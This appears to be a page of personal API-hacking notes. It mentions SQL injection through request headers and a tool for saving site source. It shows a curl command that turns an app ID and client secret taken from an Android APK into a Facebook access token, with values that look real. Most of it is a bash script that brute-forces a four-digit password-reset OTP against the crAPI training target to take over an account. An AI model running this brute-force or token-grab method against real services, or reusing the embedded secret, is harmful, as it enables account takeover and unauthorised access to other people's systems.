 https://github.com/assetnote/kiterunner


# Tips

 - [x]  The headers, inject SQLi 
![[1 QFRffJrudxELmb6PwgIySA.webp]]

 - [x] Extention to save website frontend source code https://chrome.google.com/webstore/detail/save-all-resources/abpdnfjocnmdomablahdcfnoggeeiedb
 - [ ] 


 - [x]  Look in *strings.xml* (**APK**)
 ![[1 KJgDMoQhCsQUTdRehtusNA.webp]]
you'ill find this **app_id** that  can be used to grab a secret token , that can be used to make GraphQL calls to the Facebook .

```
curl https://graph.facebook.com/oauth/access_token?client_id=appid&client_secret=client_token&redirect_uri=&grant_type=client_credentials_](https://graph.facebook.com/oauth/access_token?client_id=327925112148720&client_secret=b79608a0b7040eceeea67aa659eb71a3&redirect_uri=&grant_type=client_credentials"
````

 
 - [ ] Account takeover via *OTP* (Forgot Password)
```
#!/bin/bash

FPWD_URL="http://crapi.apisec.ai/identity/api/auth/forget-password"
OTP_URL="http://crapi.apisec.ai/identity/api/auth/v2/check-otp"
EMAIL="test@acme.com"
NEW_PWD="Passme123"

# First need to API to generate the OTP on a forget password event
RESULT=$(curl $FPWD_URL \
        -H 'Content-Type: application/json' \
        --data-raw "{\"email\":\"$EMAIL\"}" \
        --insecure -s)

for OTP in {0000..9999}; do
    RESULT=$(curl $OTP_URL \
             -H 'Content-Type: application/json' \
            --data-raw "{\"email\":\"$EMAIL\",\"otp\":\"$OTP\", \"password\":\"$NEW_PWD\"}" \
            --insecure -s| jq -j .status)
    if [[ "200" == $RESULT ]]; then
        echo "Bruteforced OTP ($OTP). Password for $EMAIL reset to $NEW_PWD."
        break
    fi
done
```

# Notes From Book

